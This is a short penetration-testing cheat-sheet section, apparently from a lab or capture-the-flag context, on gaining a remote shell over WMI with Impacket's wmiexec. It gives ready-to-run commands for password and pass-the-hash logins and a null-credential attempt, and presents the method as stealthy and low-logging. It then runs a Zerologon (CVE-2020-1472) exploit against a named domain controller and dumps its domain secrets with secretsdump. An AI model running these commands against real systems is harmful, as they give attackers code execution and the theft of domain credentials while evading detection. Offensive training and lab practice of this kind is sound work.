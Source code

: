 ### WMI
```
Tool: wmiexec.py (from Impacket)
Shell Type: Interactive Shell
Required Ports: 135 RCP Endpoint Mapper, 49152–65535: Dynamic RPC Ports.
```
Pros and Cons
```
Advantages:
Stealthy: Generates minimal logs.
No files or service creation required.
Frequently used in legitimate administrative tasks, reducing suspicion.

Limitations:
Requires open RPC ports (135 + dynamic ports).
Requires local administrator privileges on the target system.
May be blocked by strict firewall configurations.
```
###### Get Shell
```
impacket-wmiexec domain/username:password@ip
impacket-wmiexec -hashes LMHASH:NTHASH domain/username@ip
```

###### Connecting with authentication
```
impacket-wmiexec domain/'':''@ip
```
###### NXC Module CVE-2020-1472
![image](https://github.com/user-attachments/assets/3d7dc036-4432-4c5b-bc94-e39c4d5a2d5d)
```
python3 cve-2020-1472-exploit.py Monteverde 10.10.10.172
impacket-secretsdump 'megabank.local'/'Monteverde$'@10.10.10.172 -just-dc -no-pass 
```
